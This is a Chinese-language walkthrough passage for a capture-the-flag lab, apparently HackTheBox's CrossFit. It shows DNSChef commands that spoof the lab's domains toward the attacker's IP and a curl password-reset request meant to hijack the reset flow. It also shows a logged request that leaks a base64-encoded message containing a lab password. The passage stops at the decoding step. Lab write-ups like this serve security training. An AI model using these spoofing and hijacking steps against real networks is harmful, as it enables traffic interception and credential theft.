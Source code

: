 ## DNS欺骗

这里使用DNSChef这款软件来进行DNS欺骗，下载地址：https://github.com/iphelix/dnschef

DNSChef旨在为渗透测试人员和恶意软件分析师提供一个高度可配置的DNS代理。DNS代理（也称为“Fake DNS”）是用于应用程序

网络流量分析以及其他用途的工具。例如，DNS代理可以用于伪造对“badguy.com”的请求使其指向本地机器来终止或拦截，而不是指向Internet上的某个真实主机。

先测试下基本用法：

window修改dns服务器：

![]()

  * 

    
    
    dnschef —fakeip=192.168.200.2 —fakedomains=www.baidu.com,www.qq.com —interface 192.168.200.243

fackip欺骗到指定的ip，facedomains欺骗域名

![](https://gitee.com/fuli009/images/raw/master/public/20210811175834.png)

成功实现了DNS欺骗。

在本次渗透测试中运行如下命令：

> python3 dnschef.py -i 10.10.16.14 —fakedomains xemployees.crossfit.htb
> —fakeip 127.0.0.1 —count 2; sleep 1; python3 dnschef.py -i 10.10.16.14
> —fakedomains xcrossfit.htb,xemployees.crossfit.htb —fakeip 10.10.16.14

![](https://gitee.com/fuli009/images/raw/master/public/20210811175835.png)这里渗透的思路就是：既然我们获取了目标服务器的DNS配置文件，那我们就利用unbound搭建一个DNS服务器，配置与目标服务器相同。在利用DNSChef工具来进行DNS欺骗，将受害机器的DNS流量全部引导到我们自己搭建的DNS服务器上，实现了流量的劫持，并可以对关键数据进行拦截与分析，引导受害机器运行我们定义的恶意代码。

## 获取用户密码

利用前面获取的用户名，在kali终端里运行：

  * 

    
    
    curl -s -X "POST" -H "Host: xemployees.crossfit.htb" -H "Content-Type: application/x-www-form-urlencoded" -d "email=david.palmer%40crossfit.htb" "http://10.10.10.232/password-reset.php"

看下DNSChef的运行情况：

![]()查看apache日志/var/log/apache2/access.log，就可以发现；

  * 

    
    
    10.10.10.232 - - [19/Jul/2021:21:03:31 -0400] "GET /get.php?s=eyJzZW5kZXJfaWQiOjIsImNvbnRlbnQiOiJIZWxsbyBEYXZpZCwgSSd2ZSBhZGRlZCBhIHVzZXIgYWNjb3VudCBmb3IgeW91IHdpdGggdGhlIHBhc3N3b3JkIGBOV0JGY1NlM3dzNFZEaFRCYC4iLCJyb29tSWQiOjIsIl9pZCI6MjcxOX0= HTTP/1.1" 404 489 "http://xcrossfit.htb/go.html" "Mozilla/5.0 (X11; OpenBSD amd64; rv:82.0) Gecko/20100101 Firefox/82.0"

![](https://gitee.com/fuli009/images/raw/master/public/20210811175836.png)对这段base64解码后可得：
